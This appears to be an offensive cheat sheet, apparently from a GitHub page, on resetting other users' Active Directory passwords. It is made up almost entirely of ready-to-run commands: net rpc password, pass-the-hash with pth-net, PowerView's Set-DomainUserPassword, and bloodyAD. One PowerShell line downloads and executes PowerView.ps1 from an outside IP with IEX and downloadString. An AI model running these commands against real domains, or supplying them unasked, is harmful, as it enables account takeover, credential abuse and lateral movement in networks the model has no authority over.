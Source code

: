 ## If Password of Source Account is Known

````bash
net rpc password jamie -U domain.local/john -S 192.168.210.10
net rpc password TargetUser -U <domain/your_user> -S <dc>
````

## Pass the Hash

```bash
pth-net rpc password 'TargetUser' "NewPassword" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

## PowerShell from another account if the Source Account Password is Known

````bash
$SecPassword = ConvertTo-SecureString 'your_password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\youruser', $SecPassword)

$UserPassword = ConvertTo-SecureString 'NewPassword' -AsPlainText -Force
Set-DomainUserPassword -Identity jamie -AccountPassword $UserPassword -Credential $Cred

Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $UserPassword -Credential $Cred
````

## PowerShell if logged into account

```bash
IEX(New-Object Net.WebClient).downloadString('http://192.168.58.50/PowerView.ps1')  
$NewPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force 

Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword   
```

### BloodyAD

```bash
bloodyAD --host "x.x.x.x" -d "DOMAIN" -u "USER" -p "PASSWORD" set password TargetUser NewPassword
```
